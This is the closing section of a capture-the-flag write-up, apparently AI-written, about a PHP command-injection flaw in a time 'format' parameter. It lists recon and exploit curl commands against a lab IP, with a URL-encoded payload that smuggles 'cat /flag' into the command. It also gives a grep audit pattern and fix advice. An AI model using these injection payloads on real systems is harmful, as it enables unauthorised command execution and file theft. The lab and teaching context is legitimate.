 Recon:
```
curl -i http://94.237.123.160:42908/
curl -i http://94.237.123.160:42908/flag
curl -i http://94.237.123.160:42908/flag.txt
```

Exploit:
```
curl -s "http://94.237.123.160:42908/?format=%H:%M:%S%27%3Bcat%20%2Fflag%3B%23"
curl -i "http://94.237.123.160:42908/?format=%H:%M:%S%27%3Bcat%20%2Fflag%3B%23"
curl -s "http://94.237.123.160:42908/?format=%H:%M:%S%27%3B%2Fbin%2Fcat%20%2Fflag%3B%23"
```

Audit:
```
grep -R --line-number -E "exec\(|shell_exec\(|system\(|`" .
```

Fix examples (PHP):
- Use `DateTime()` or `escapeshellarg()` as shown earlier.

---

## Closing notes
Nice job finding the vulnerability. This challenge is a great reminder that even seemingly small uses of system commands (like reading the time) can lead to full command injection if user data is used unsafely. If you'd like, I can also:

- produce a **slide-style summary** of this writeup,
- create a more compact **one-page remediation checklist**, or
- generate a **CVE-style advisory** for the issue (hypothetical).

Pick one and I'll generate it.

---

*End of writeup.*
